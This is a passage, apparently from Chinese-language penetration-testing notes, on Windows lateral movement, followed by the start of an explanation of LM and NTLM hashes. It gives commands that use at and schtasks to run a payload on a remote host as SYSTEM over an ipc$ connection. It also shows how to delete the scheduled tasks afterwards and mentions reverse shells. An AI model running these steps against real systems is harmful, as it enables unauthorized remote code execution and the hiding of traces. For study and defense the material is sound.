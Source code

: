3. 使用at定时启动该Payload

   ```powershell
   at \\pc 4:00PM C:\payload.exe
   ```

   这会输出任务ID，记录该ID。

4. 使用at删除创建计划任务的记录

   ```powershell
   at \\pc ID /delete
   ```

   删除第三步获取的ID任务。

在上面的流程开始前，需要建立`ipc$`连接。

##### schtasks

在Windows Server 2008、Windows Vista之后版本的操作系统at已经废弃了，所以需要使用这个命令。

在远程主机上创建一个名称为"test"的计划任务如下：

```powershell
shctasks /create /s \\pc /tn test /sc onstart /tr c:\payload.exe /ru system /f
```

注意这个命令的启动时间为开机时，启动权限为system。

运行一个计划任务：

```powershell
schtasks /run /s \\pc /i /tn "test"
```

使用该命令无需输入密码，`ipc$`连接会自动认证。如果没有建立连接，可以使用`/u`和`/p`参数指定。

计划任务运行后，删除计划任务：

```powershell
schtasks /delete /s \\pc /tn "test" /f
```

在使用schtasks命令时，会在系统中留下日志文件`C:\Windows\Tasks\SchedLgU.txt`。如果执行后没有反弹shell或者说没有回显等情况，可以配合`ipc$`与`type`命令查看远程执行结果。

### Windows系统散列值获取分析与防范

#### LM Hash与NTLM Hash

Windows操作系统使用两种方法对用户的铭文密码进行加密处理。在域环境中，用户信息存储在`ntds.dit`中，加密后为散列值。

Windows操作系统中的密码一般由两部分组成，一部分为LM Hash，另一部分为NTLM Hash。在Windows操作系统中，hash的结构通常如下：

```xml-dtd
username:RID:LM-HASH:NT-HASH
```

LM Hash的全名为“Lan Manager Hash"，是微软为了提高WIndows操作系统的安全性而采用的散列加密算法，其本质是DES加密，因此LM Hash比较容易被破解，但是为了系统的兼容性，Windows只是将LM Hash禁用了，从Windows Vista和Windows Server 2008版本开始，Windows操作系统默认禁用LM Hash。

LM Hash 的一个限制是，其明文密码被限定在了14位以内，这是因为DES的特性造成的。如果需要停止使用LM Hash，则将用户的密码设置14位以上即可。如果LM Hash被禁用了，则抓取的LM Hash通常为：
